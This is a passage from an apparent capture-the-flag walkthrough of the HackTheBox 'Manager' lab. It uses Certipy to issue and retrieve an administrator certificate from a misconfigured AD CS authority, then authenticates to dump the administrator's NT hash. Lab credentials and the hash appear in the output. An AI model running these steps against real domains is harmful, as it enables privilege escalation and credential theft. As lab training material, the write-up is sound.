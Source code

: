     oxdf@hacky$ certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                        
    [*] Successfully issued certificate
    

Now, the issued certificate can be retrieved using the `req` command:

    
    
    oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)    
                                                                        
    [*] Rerieving certificate with ID 13          
    [*] Successfully retrieved certificate
    [*] Got certificate with UPN 'administrator@manager.htb'
    [*] Certificate has no object SID
    [*] Loaded private key from '13.key'                     
    [*] Saved certificate and private key to 'administrator.pfx'
    

#### Administrator NTLM

With this certificate as the administrator user, the easiest way to get a
shell is to use it to get the NTLM hash for the user with the `auth` command.
This requires the VM and target times to be in sync, with otherwise leads to
this failure:

    
    
    oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip manager.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                        
    [-] Got error: nameserver manager.htb is not an IP address or valid https URL
    [-] Use -debug to print a stacktrace
    

I’ll use `ntpdate` to sync my VM’s time to Manager’s:

    
    
    oxdf@hacky$ sudo ntpdate 10.10.11.236
    13 Mar 17:17:40 ntpdate[252490]: step time server 10.10.11.236 offset +25191.022331 sec
    

Now it works, leaking the hash:

    
    
    oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@manager.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
    